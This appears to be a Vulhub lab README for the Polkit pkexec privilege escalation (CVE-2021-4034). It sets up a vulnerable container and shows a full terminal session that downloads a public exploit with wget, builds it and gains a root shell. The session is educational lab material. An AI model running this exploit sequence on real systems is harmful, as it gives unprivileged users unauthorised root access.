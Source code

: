 # Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

Because this vulnerability is not based on a service that running foreground, Vulhub just provided a Ubuntu that installed the Polkit (PolicyKit) v0.105.

You can run following command to enter the interactive shell on this Ubuntu:

```
docker-compose run --rm cmd bash
```

Then, execute `id`, it proves that you are just a normal user `nobody`:

![](2.png)

## Exploit

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```

![](1.png)

As you can see, I currently become a root user after exploits.
